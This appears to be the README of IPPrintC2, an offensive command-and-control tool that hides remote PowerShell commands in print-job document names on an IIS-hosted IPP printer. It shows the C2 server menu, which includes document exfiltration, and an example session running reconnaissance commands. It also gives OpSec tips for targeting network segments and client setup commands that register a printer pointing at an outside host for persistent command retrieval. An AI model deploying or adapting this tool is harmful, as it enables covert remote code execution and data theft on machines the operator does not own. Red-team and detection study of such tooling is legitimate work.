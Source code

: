 The installation script is provided in this repository and should work. Check if you can access your printer to make sure everything went well:
```
http(s)://<IP or DNS>/printers/
http(s)://<IP or DNS>/printers/<printername>/.printer
```
Once all is set up, run the IPPrintC2.ps1 and enter commands that you would like to execute on the client through the document name. The document name has its length limitations, so if the length of the base64 encoded command in the document name is larger than 255 characters, it gets split to several documents in the print queue. This is handled by the IPPrintC2 script while the concatenation is handled by the client.

```
PS C:\Users\administrator\Desktop> .\IPPrintC2.ps1
IPPrint C2 Server
1. Select the default C2 printer.
2. Enter the command to execute on the client through the document name.
3. Enter the path of the PowerShell script you would like to execute.
4. Exfiltrate remote documents.
5. Read IIS logs.
6. Clear the print queue.
7. Kill all clients.
8. Quit.
What do you want to do?: 2
To print output of multiple commands, use this: [scriptblock]$x={whoami;hostname;ipconfig};$x.invoke()
Enter commands you wish to execute: [scriptblock]$x={whoami /all;hostname};$x.invoke()
```
You can also load PowerShell scripts. Keep the scripts simple as they may take a while to get split and sent to the document queue. Also, the scripts are one-off since the print queue eventually gets cleared and the character limit is 32767.

#### OpSec
* Be sure to use the whitelist approach for the network segments you are targeting, otherwise anyone can access your print queue.
* It is recommended to set up SSL for obvious reasons. The easiest way to setup SSL:
    * Setup / generate a DNS record for your VM
    * <https://certifytheweb.com/> can be used to automate CSR and installation
    * Make sure to edit site bindings under IIS to enable HTTPS and disable HTTP
        * <https://docs.microsoft.com/en-us/iis/manage/configuring-security/how-to-set-up-ssl-on-iis>


### Client
To execute commands on the client, the addition of a printer and a persistent job to obtain and execute commands is needed. Examples:

```
PS C:\Users\regular> Add-Printer XPS -PortName https://somewhere.on.azure.com/printers/af/.printer -DriverName "Microsoft Print To PDF"

PS C:\Users\regular> Get-Printer XPS |fl


Name                         : XPS
ComputerName                 :
Type                         : Local
ShareName                    :
PortName                     : https://somewhere.on.azure.com/printers/af/.printer
DriverName                   : Microsoft Print To PDF
Location                     :
Comment                      :
SeparatorPageFile            :
PrintProcessor               : winprint
Datatype                     : RAW
Shared                       : False
Published                    : False
```